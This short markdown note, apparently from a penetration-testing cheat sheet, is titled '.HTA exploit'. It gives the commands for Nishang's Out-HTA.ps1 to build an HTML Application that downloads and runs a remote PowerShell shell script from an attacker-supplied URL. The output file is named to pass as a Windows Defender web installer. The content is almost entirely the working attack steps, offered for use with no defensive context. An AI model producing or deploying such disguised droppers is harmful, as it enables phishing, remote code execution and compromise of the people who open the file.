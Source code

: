 ```yaml
---
description: .HTA exploit
---
```


# Nishang Out-HTA.ps1

NOTE: needs a windows system to generate payload. (download
link)[https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1]

````powershell
PS> . .\Out-HTA.ps1
PS> Out-HTA -PayloadURL http://IP/shell.ps1
HTA written to \WindDef_WebInstall.hta
```
